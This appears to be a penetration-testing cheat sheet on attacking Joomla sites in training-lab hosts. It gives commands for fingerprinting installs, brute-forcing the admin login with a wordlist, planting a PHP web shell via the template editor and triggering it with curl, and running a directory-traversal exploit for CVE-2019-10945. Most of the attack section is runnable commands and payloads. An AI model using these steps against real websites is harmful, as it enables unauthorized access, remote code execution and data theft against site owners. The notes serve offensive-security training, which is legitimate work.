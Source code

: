 ### Footprinting + Enumeration
[droopescan](https://github.com/droope/droopescan) and [JoomlaScan](https://github.com/drego85/JoomlaScan) 
```bash
droopescan scan joomla --url http://blog.trilocor.local/
python2.7 joomlascan.py -u http://blog.trilocor.local
```
Is this Joomla?
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
curl -s http://blog.trilocor.local/robots.txt
curl -s http://blog.trilocor.local/README.txt | head -n 5
```
Less common
```bash
curl -s http://blog.trilocor.localadministrator/manifests/files/joomla.xml | xmllint --format -
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml
```
### Exploitation
##### Login bruteforcing
The default administrator account on Joomla installs is `admin`, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing. We can use [Joomla-brute](https://github.com/ajnik/joomla-bruteforce) for this.
```bash
python3 joomla-brute.py -u  http://blog.trilocor.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
##### RCE
> [!NOTE] Note
> If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.

Visit `/administrator` -> `Templates` -> `Configuration`

Choose an unused template and add PHP one liner to an uncommon page (`error.php`)
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
**ITS BEST PRACTICE TO USE NON-GUESSABLE PARAMETERS FOR OUR RCE PAYLOADS TO AVOID ANY DRIVEBY ATTACKERS. we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.**
```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

##### Known Vulnerabilities
Version `3.9.4` is vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) in which an exploit can be found [here](https://github.com/dpgg101/CVE-2019-10945) 
This would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds
```bash
python3 joomla_dir_trav.py --url "http://blog.trilocor.local/administrator/" --username admin --password admin --dir /
```